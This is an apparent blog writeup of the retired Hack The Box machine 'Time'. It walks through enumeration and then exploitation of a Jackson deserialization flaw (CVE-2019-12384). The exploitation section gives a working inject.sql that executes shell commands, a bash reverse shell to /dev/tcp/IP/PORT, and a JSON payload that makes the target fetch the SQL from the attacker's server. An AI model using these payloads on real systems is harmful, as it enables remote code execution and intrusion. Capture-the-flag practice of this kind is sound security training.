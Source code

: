 ```yaml
---
title: "Time HTB Writeup"
date: 2021-03-26T4:42:47+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "medium",
    "linux",
]
---
```

![Machine info](/images/time/1.png)

Time is a medium machine retired today, but i think it's an easy and straight forward one. enjoy .. 

### 1. Enumeration:
* Nmap scan:
  * `` nmap -sC -sV 10.10.10.214`` 
![](/images/time/2.png)

* Web Enumeration:
  * let's check out the running web server:
![it's a java beautifier and validator](/images/time/3.png)

* And the source code:
![](/images/time/4.png)
Nothing interesting in the source code.

* let's search for hidden directories:
```yml
$ python3 dirsearch.py -u http://10.10.10.223/ -e txt,html,php,log,zip,bac,bak,tar
```
![](/images/time/5.png)
![](/images/time/6.png)

* Nothing useful inside them:
![error like this apache version we shall search for exploits for it if any](/images/time/7.png)
also checking ``/index.php and /index.php/login`` >> gives nothing useful and redirects back to the main page

### Let's see the app functionality:
* when tried the beautifier > it worked fine
* when tried validator (still in beta version) >> tried some meaningless letters
  * gave some suspicious error >> will search with it to see its meaning.

```text
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'edfgagshh': was expecting ('true', 'false' or 'null')
```
![](/images/time/8.png)

* Found out that this ``com.fasterxml.jackson.core`` library is vulnerable and leads to RCE.
![](/images/time/9.png)

* Found an exploit for it on github [here](https://github.com/jas502n/CVE-2019-12384)
![](/images/time/10.png)
![](/images/time/11.png)

To understand the error [more](https://stackoverflow.com/questions/49822202/com-fasterxml-jackson-databind-exc-mismatchedinputexception-unexpected-token-s)
![](/images/time/12.png)

### Exploitation:
This is where the deserialization comes in. You need to find the right class for the application to accept. This is where CVE-2019-12384 comes in. Now that we understand how to construct a correct payload, we can abuse it for a shell. Looking over the github, we see that we are using this class: ch.qos.logback.core.db.DriverManagerConnectionSource.

So now all we gotta do is host the "inject.sql" on our webserver, modify the "inject.sql" to execute the code we want (rev shell of course), and to send the application the payload it expects. Breakdown below

1. Setup your http server to host the malicious content. There's a python script called 'updog' (pip3 install updog) that I like to use. It's quicker than the stupid python3 -m http.server. Fuck typing

2. Create file 'inject.sql' to host on your http server and insert the following code into it:
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &')


3. Replace the IP and PORT above with your HTB IP and netcat listener port

4. Start your netcat listener

5. On the website application, select "Validate (beta!)" and input this: 
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://IP:PORT/inject.sql'"}]


6. Replace IP with your HTB IP, and PORT with your server port (updog uses 9090)

7. Submit and you should get a shell.
8. 








